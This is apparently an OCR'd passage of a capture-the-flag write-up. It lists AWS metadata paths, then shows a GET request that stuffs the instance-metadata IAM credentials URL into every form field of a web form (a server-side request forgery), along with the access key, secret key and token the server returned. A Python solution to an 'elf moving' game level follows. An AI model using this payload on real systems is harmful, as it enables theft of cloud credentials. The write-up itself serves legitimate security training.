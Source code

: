 network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time

GET /?inputName=jf&inputEmail=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&inputPhone=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&resumeFile=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&inputWorkSample=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&additionalInformation=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role&submit= HTTP/2

{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}


# elf moving 

Guide 
```python
import elf, munchkins, levers, lollipops, yeeters, pits
# Grab our lever object
lever = levers.get(0)
munchkin = munchkins.get(0)
lollipop = lollipops.get(0)
# move to lever position
elf.moveTo(lever.position)
# get lever int and add 2 and submit val
leverData = lever.data() + 2
lever.pull(leverData)
# Grab lollipop and stand next to munchkin
elf.moveLeft(1)
elf.moveUp(8)
# Solve the munchkin's challenge
munchList = munchkin.ask() # e.g. [1, 3, "a", "b", 4]
answer_list = []
for elem in munchList:
    if type(elem) == int:
        answer_list.append(elem)
munchkin.answer(answer_list)
elf.moveUp(2) # Move to finish
```
